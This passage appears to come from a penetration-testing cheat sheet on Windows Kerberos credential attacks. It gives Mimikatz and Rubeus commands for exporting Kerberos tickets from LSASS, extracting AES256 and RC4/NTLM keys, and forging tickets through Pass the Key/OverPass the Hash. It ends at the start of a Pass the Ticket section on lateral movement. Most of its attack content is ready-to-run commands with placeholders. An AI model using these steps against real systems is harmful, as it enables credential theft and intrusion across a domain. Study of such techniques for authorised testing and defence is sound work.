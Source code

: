 Tickets are protected by LSASS. Non admin users can only retrieve their own ticket, as an admin, it is possible to retrieve all tickets on the system.

###### Mimikatz:

Export Tickets:

```bash
mimikats.exe
privilege::debug
sekurlsa::tickets /export
```

Tickets with an `$` indicate they are used for computer accounts. Tickets without just a `@` are user tickets

###### Rubeus

Export Tickets

```bash
Rubeus.exe dump /nowrap
```

#### Pass the Key or OverPass the Hash (forging our own tickets)

We need to extract the `AES256_HMAC` and `RC4_HMAC` keys

###### Mimikatz:

```bash
mimikatz.exe
privilege::debug
sekurlsa::ekeys
```

With the information collected, we can we can perform the OverPass the Hash or Pass the Key attack using `Mimikatz` and `Rubeus`.
#### Mimikatz - Pass the Key or OverPass the Hash

```bash
mimikatz.exe
privilege::debug
sekurlsa::pth /domain:<DOMAIN> /user:<USER> /ntlm:<rc4_hmac/NTLM>
````

#### Rubeus - Pass the Key or OverPass the Hash

```bash
Rubeus.exe  asktgt /domain:<DOMAIN> /user:<USER> /aes256:<AES256_HMAC> /nowrap
```

**Note:** Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus does not.

### Pass the Ticket

With the Kerberos tickets collected, we can now perform Pass the Ticket, and moe laterally within the enviroment.




